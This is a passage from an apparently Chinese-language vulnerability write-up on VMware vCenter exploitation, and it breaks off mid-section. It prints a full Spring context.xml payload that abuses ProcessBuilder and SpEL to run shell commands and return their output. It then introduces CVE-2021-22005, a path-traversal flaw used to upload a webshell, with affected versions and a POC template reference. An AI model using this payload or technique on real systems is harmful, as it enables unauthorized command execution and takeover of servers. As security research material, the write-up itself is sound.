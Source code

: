 所以在执行 SpEL 时，可以将命令暂存到 `systemProperties` 中，然后利用 `getProperty` 方法获取回显。最终的 context.xml 内容为：

|     |     |     |
| --- | --- | --- |
| ```bash<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>19<br>20<br>21<br>22<br>23<br>24<br>25<br>26<br>27<br>28<br>``` | ```xml<br><beans xmlns="http://www.springframework.org/schema/beans"<br>       xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"<br>       xsi:schemaLocation="<br>     http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd"><br>    <bean id="pb" class="java.lang.ProcessBuilder"><br>        <constructor-arg><br>          <list><br>            <value>/bin/bash</value><br>            <value>-c</value><br>            <value><![CDATA[ ls -la /  2>&1 ]]></value><br>          </list><br>        </constructor-arg><br>    </bean><br>    <bean id="is" class="java.io.InputStreamReader"><br>        <constructor-arg><br>            <value>#{pb.start().getInputStream()}</value><br>        </constructor-arg><br>    </bean><br>    <bean id="br" class="java.io.BufferedReader"><br>        <constructor-arg><br>            <value>#{is}</value><br>        </constructor-arg><br>    </bean><br>    <bean id="collectors" class="java.util.stream.Collectors"></bean><br>    <bean id="system" class="java.lang.System"><br>        <property name="whatever" value="#{ system.setProperty(&quot;output&quot;, br.lines().collect(collectors.joining(&quot;\n&quot;))) }"/><br>    </bean><br></beans><br>``` |

最终漏洞利用的结果：

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202205072106797.png-water_print](assets/1708572547-88234b08cdc47aa45b98425bd6cb5752.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202205072106797.png-water_print")

### [](#25-cve-2021-22005)2.5 CVE-2021-22005

#### [](#251-%E6%BC%8F%E6%B4%9E%E5%88%A9%E7%94%A8)2.5.1 漏洞利用

Analytics 服务相关端点存在目录穿越写文件，可以直接上传 Webshell 文件，并获取 root 权限。

影响版本：

-   `7.0 <= vCenter Server < 7.0 U2c`
-   `6.7 <= vCenter Server < 6.7 U3o`

POC：

-   `/nuclei-templates/cves/2021/CVE-2021-22005.yaml`

EXP：
